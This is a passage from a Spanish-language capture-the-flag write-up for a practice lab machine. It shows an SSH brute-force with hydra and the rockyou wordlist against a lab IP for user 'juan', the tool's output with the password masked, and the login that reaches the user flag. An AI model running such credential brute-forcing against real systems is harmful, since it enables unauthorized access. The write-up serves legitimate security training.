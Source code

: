 </p>

Tenemos el nombre de un usuario llamado **juan**.

Te diría que aplicáramos **Fuzzing** para ver qué podemos encontrar, pero no encontremos nada.

Así que con el nombre que ya tenemos, vamos a aplicar fuerza bruta el **servicio SSH** para poder ganar acceso a la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="SSH">Aplicando Fuerza Bruta al Servicio SSH y Ganando Acceso a la Máquina Víctima</h2>

Para esto, utilizaremos la herramienta **hydra** y usaremos el wordlist **rockyou.txt**:
```bash
hydra -l 'juan' -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.120 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-18 12:00:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.10.120:22/
[22][ssh] host: 192.168.10.120   login: juan   password: *****
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 31 final worker threads did not complete until end.
[ERROR] 31 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-18 12:01:52
```
Excelente, tenemos su contraseña. Vamos a comprobar si funciona.

Entremos al **servicio SSH**:
```bash
ssh juan@192.168.10.120
```

Pasa algo extraño al entrar, ya que se limpia la terminal y nos muestra la flag del usuario:
```bash
User flag: ***********
juan@TheHackersLabs-CanYouHackMe:~$
juan@TheHackersLabs-CanYouHackMe:~$ whoami
juan
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>

